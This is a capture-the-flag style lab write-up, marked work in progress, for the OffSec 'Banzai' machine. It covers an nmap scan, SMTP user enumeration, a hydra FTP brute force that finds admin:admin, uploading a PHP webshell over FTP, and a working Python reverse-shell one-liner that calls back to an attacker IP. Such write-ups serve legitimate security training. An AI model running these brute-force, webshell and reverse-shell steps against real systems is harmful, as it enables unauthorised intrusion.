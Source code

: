 # Banzai (WIP)

## Nmap

```
sudo nmap 192.168.233.56 -p- -sS -sV

PORT     STATE  SERVICE    VERSION
20/tcp   closed ftp-data
21/tcp   open   ftp        vsftpd 3.0.3
22/tcp   open   ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
25/tcp   open   smtp       Postfix smtpd
5432/tcp open   postgresql PostgreSQL DB 9.6.4 - 9.6.6 or 9.6.13 - 9.6.17
8080/tcp open   http       Apache httpd 2.4.25
8295/tcp open   http       Apache httpd 2.4.25 ((Debian))
Service Info: Hosts:  banzai.offseclabs.com, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

SMTP is open on the host. Bruteforcing `smtp-user-enum` reveals the following:

```
sudo perl smtp-user-enum.pl -M VRFY -U /usr/share/seclists/Usernames/Names/names.txt -t 192.168.233.56
```

![](<../../.gitbook/assets/image (974).png>)

The user admin is not a default user on Linux / Unix systems. We can attempt to bruteforce this against relevant services starting with FTP.

We receive no hits with Hydra after 30 minutes.

![](<../../.gitbook/assets/image (975).png>)

However, trying with the mirai password list provides success on `admin:admin`.

```
hydra -l admin -P /usr/share/wordlists/metasploit/mirai_pass.txt ftp://192.168.233.56 
```

![](<../../.gitbook/assets/image (976).png>)

Logging in with FTP appears to show the root directory for the webserver. Knowing this we can upload a reverse shell. A PHP shell will be sufficiant as we can tell from the listing PHP is supported.

![](<../../.gitbook/assets/image (977).png>)

Using the PUT command we can upload a webshell then browse to it to access: [http://192.168.233.56:8295/webshell.php](http://192.168.233.56:8295/webshell.php)

![http://192.168.233.56:8295/webshell.php](<../../.gitbook/assets/image (978).png>)

A Python reverse shell was then executed on the webshell pointing back to a listener on port 21 to gain a full shell.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.233",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

![](<../../.gitbook/assets/image (979).png>)
